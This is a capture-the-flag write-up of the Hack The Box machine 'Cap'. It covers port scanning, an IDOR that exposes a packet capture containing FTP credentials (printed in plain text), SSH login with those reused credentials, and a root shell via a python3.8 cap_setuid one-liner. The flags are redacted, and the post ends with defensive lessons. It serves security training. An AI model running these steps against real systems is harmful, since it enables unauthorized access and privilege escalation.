






# Cap


!!! note "Replaceable banner"
    Replace `images/banner.png` in this box folder with the final Cap artwork. The page already points to that filename.

| Field | Value |
| --- | --- |
| Status | Completed |
| Difficulty | Easy |
| Focus | Linux, Web |
| Machine | [Cap on Hack The Box](https://app.hackthebox.com/machines/Cap) |

## Attack path

1. Scan the host and identify FTP, SSH and HTTP.
2. Enumerate the web application and find the packet-capture functionality.
3. Abuse the predictable capture identifier to access another capture and recover FTP credentials.
4. Reuse the recovered credentials over SSH as `nathan`.
5. Find `cap_setuid` on `/usr/bin/python3.8` and use it to obtain a root shell.

## 1. Reconnaissance

The supplied RustScan output identified three exposed services:

| Port | Service | Observation |
| ---: | --- | --- |
| 21/tcp | FTP | Available for credential testing and packet-capture validation. |
| 22/tcp | SSH | Remote shell once credentials are recovered. |
| 80/tcp | HTTP | Cap's dashboard and capture download functionality. |

```bash
rustscan -a LAB_IP -u 5000 -- -sS -T4
```

The HTTP application presents a dashboard with security snapshots and packet-capture analysis. The first two screenshots preserve the web enumeration sequence from the source notes.

<figure class="htb-figure">
  
  <figcaption><strong>Figure 1.</strong> The Cap dashboard exposed on port 80.</figcaption>
</figure>

<figure class="htb-figure">
  
  <figcaption><strong>Figure 2.</strong> A packet-capture data view exposed by the dashboard.</figcaption>
</figure>

## 2. Exploit the capture IDOR

The application exposes capture records through a numeric path. Changing the capture identifier from the currently displayed record to another valid identifier reveals a different capture rather than enforcing ownership. The next two screenshots show the record enumeration and the packet contents.

<figure class="htb-figure">
  
  <figcaption><strong>Figure 3.</strong> The capture identifier can be changed directly in the URL.</figcaption>
</figure>

<figure class="htb-figure">
  
  <figcaption><strong>Figure 4.</strong> The recovered capture contains FTP authentication traffic.</figcaption>
</figure>

The FTP stream exposes credentials for the `nathan` account. They are used only against this authorized lab machine:

```text
username: nathan
password: Buck3tH4TF0RM3!
```

The key lesson is that an object identifier is not an authorization check. The server must verify that the current user is allowed to access the requested capture, not merely that the identifier exists.

## 3. Obtain the user shell

Use the recovered credentials to connect over SSH:

```bash
ssh nathan@LAB_IP
```

The fifth screenshot shows the authenticated SSH session.

<figure class="htb-figure">
  
  <figcaption><strong>Figure 5.</strong> SSH access as `nathan` after reusing the recovered credentials.</figcaption>
</figure>

The sixth screenshot shows the user-flag check. The flag value is redacted in this published copy.

<figure class="htb-figure">
  
  <figcaption><strong>Figure 6.</strong> The user-flag check in the authenticated SSH session. The flag value is redacted.</figcaption>
</figure>

The source notes verified the user flag with:

```bash
nathan@cap:~$ ls
user.txt

nathan@cap:~$ cat user.txt
<USER_FLAG_REDACTED>
```

## 4. Escalate through Python capabilities

Search the filesystem for Linux file capabilities:

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`cap_setuid` allows the Python interpreter to change its effective UID. Confirm the capability on the interpreter, then start a shell after changing the UID to zero:

```bash
nathan@cap:~$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# whoami
root
```

The final screenshot shows the root shell and the flag-read operation. The flag value is redacted in this published copy.

<figure class="htb-figure">
  
  <figcaption><strong>Figure 7.</strong> Root access obtained through the `cap_setuid` capability on Python. The flag output is redacted.</figcaption>
</figure>

```bash
root@cap:~# cd /root
root@cap:/root# cat root.txt
<ROOT_FLAG_REDACTED>
```

## Takeaways

- Treat numeric object identifiers as untrusted input and enforce authorization server-side.
- Do not expose packet captures containing credentials to users who do not own them.
- Audit file capabilities regularly; `cap_setuid` on an interpreter is effectively a local privilege-escalation primitive.
## Complete source command blocks

The following blocks preserve the complete typed commands and terminal output from the supplied source note. Output is kept intact except for user and root flag values, which are represented by the redaction markers used above.

### Source block 1 (`bash`)

```bash
┌──(kali㉿Shieldbyte53)-[~]
└─$ rustscan -a 10.129.6.89 -u 5000 -- -sS -T4
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Port scanning: Because every port has a story to tell.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.6.89:21
Open 10.129.6.89:22
Open 10.129.6.89:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sS -T4" on ip 10.129.6.89
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-29 16:18 IST
Initiating Ping Scan at 16:18
Scanning 10.129.6.89 [4 ports]
Completed Ping Scan at 16:18, 0.34s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:18
Completed Parallel DNS resolution of 1 host. at 16:18, 0.06s elapsed
DNS resolution of 1 IPs took 0.06s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 16:18
Scanning 10.129.6.89 [3 ports]
Discovered open port 22/tcp on 10.129.6.89
Discovered open port 21/tcp on 10.129.6.89
Discovered open port 80/tcp on 10.129.6.89
Completed SYN Stealth Scan at 16:18, 0.57s elapsed (3 total ports)
Nmap scan report for 10.129.6.89
Host is up, received echo-reply ttl 62 (0.39s latency).
Scanned at 2026-01-29 16:18:18 IST for 1s

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 62
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.10 seconds
           Raw packets sent: 7 (284B) | Rcvd: 6 (240B)
```

### Source block 3 (`bash`)

```bash
nathan@cap:~$ ls
user.txt

nathan@cap:~$ cat user.txt
<USER_FLAG_REDACTED>
```

### Source block 4 (`bash`)

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

nathan@cap:~$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

root@cap:~# cd root

root@cap:/root# cat root.txt
<ROOT_FLAG_REDACTED>

root@cap:/root#
```
